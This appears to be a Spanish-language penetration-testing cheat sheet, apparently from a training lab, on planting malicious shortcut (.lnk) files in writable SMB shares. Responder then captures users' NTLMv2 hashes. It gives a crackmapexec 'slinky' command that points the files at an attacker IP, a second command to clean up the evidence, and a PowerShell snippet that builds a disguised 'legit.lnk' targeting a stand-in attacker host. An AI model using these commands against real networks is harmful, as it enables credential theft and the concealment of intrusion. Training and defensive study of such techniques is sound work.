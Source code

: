 # Con crackmapexec

Podemos aprovechar el modulo slinky para crear de manera automática un lnk en todas las carpetas de la red en las que nuestro usuario tenga permiso de escritura

    crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o SERVER=10.10.14.33 NAME=important

Luego corremos responder


Para poder limpiar la evidencia:

    crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o NAME=important CLEANUP=YES
# Manual

Si podemos subir un archivo a una carpeta smb, podemos crear un falso lnk que nos permita aprovechar a responder para envenenar el tráfico ntlmv2 

### Creacion del archivo

    $objShell = New-Object -ComObject WScript.Shell
    $lnk = $objShell.CreateShortcut("legit.lnk")
    $lnk.TargetPath = "\\IP-atacante\@pwn.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Browsing to the directory where this file is saved will trigger an auth 
    request."
    $lnk.HotKey = "Ctrl+Alt+O"
    $lnk.Save()


